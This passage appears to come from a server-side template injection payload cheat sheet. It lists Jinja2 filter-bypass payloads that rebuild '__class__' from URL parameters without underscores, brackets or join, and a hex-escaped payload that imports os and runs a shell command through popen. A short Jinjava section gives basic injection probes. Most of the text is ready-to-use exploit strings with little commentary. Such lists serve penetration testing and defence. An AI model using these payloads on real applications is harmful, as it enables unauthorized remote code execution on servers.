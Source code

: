 ### Jinja2 - Filter bypass

```python
request.__class__
request["__class__"]
```

Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

Bypassing most common filters ('.','_','|join','[',']','mro' and 'base') by https://twitter.com/SecGus:
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Jinjava

[Official website](https://github.com/HubSpot/jinjava)
> Java-based template engine based on django template syntax, adapted to render jinja templates (at least the subset of jinja in use in HubSpot content).

### Jinjava - Basic injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

